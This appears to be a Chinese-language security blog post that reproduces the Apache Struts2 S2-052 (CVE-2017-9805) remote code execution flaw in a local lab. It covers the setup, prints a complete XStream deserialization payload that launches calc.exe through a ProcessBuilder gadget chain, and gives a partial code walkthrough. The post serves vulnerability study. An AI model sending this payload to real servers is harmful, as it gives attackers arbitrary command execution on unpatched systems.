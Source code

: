 ```yaml
---
layout: post
title: 'struts2[s2-052]远程命令执行漏洞复现'
tags: []
categories:
  - 漏洞复现
author: 1ss4k
date: 2021-03-31 14:12:00
---
```

## 漏洞信息

编号：CVE-2017-9805



## 环境搭建

1、Windows 10(64位)

2、tomcat9.0

参考

[安装配置 by荆棘云海](https://blog.csdn.net/weixin_44092289/article/details/88374898)

 [startup错误解决 by Jessica-小波](https://blog.csdn.net/wxb141001yxx/article/details/96976380)

/bin目录下，开启：startup，关闭：shutdown

3、struts-2.5.12

[下载地址](http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip )

[2.5.12源码下载地址](https://archive.apache.org/dist/struts/2.5.12/)

4、bp

在C盘目录下，直接`运行.bat`，使用Chrome浏览器，端口8088

[配置教程](https://blog.csdn.net/qiushisoftware/article/details/107784751)



## 复现过程

1、bp抓包

访问`ip:8080/struts2-rest-showcase/`

![upload successful](/images/pasted-307.png)

2、改包

Content-Type: application/x-www-form-urlencoded 表示使用URL编码的方式来编码表单，是浏览器默认的编码格式。当action为get时候，浏览器用x-www-form-urlencoded的编码方式把form数据转换成一个字串（name1=value1&name2=value2…），然后把这个字串append到url后面，用?分割，加载这个新的url。



post改为如下内容

```python
<map>

<entry>

<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>calc.exe</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>

</entry>

</map>
```



发送，弹出计算器～

![upload successful](/images/pasted-308.png)

## 漏洞分析

参考现有文章，请求会被传给下面的函数👇

![upload successful](/images/pasted-309.png)

其中含有语句

```java
        HttpServletRequest request = ServletActionContext.getRequest();
        ContentTypeHandler handler = selector.getHandlerForRequest(request);
```

getHandlerForRequest在此处是XStreamHandler，随后调用如下函数

```java
    public void toObject(Reader in, Object target) {
        XStream xstream = createXStream();
        xstream.fromXML(in, target);
    }
```

from XML 调用unmarshal，创建hashMap并且调用PopulateMap

PopulateMap调用PutCurrentEntryIntoMap，其再调用readItem，此时变量值如下

![upload successful](/images/pasted-310.png)
接着调用doUnmarshal，得到node name，搜索class name。

...

下面还有很复杂的过程，但是自己既不会java，也没弄好调试...所以看不懂

大致的过程就是REST插件在解析请求中的xml文件时，调用了XStreamHandler，传入的数据会被默认进行反序列化，如果当传入的xml是个经过XStream序列化的恶意对象时，便造成反序列化漏洞。



收获：

1、如果想自己分析的话，需要远程调试。但是还没配置好

2、三五太难了😭



参考

[Apache Struts at REST: Analyzing Remote Code Execution Vulnerability CVE-2017-9805 by McAfee](https://www.mcafee.com/blogs/other-blogs/mcafee-labs/apache-struts-at-rest-analyzing-remote-code-execution-vulnerability-cve-2017-9805/)

[struts2(s2-052)远程命令执行漏洞复现 by 渗透测试中心](https://www.cnblogs.com/backlion/p/7490260.html)

[STRUTS2 S2-052远程代码执行漏洞分析 CVE-2017-9805 by MANNING23](https://manning23.github.io/2017/09/10/Struts2-S2-052%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90-CVE-2017-9805/)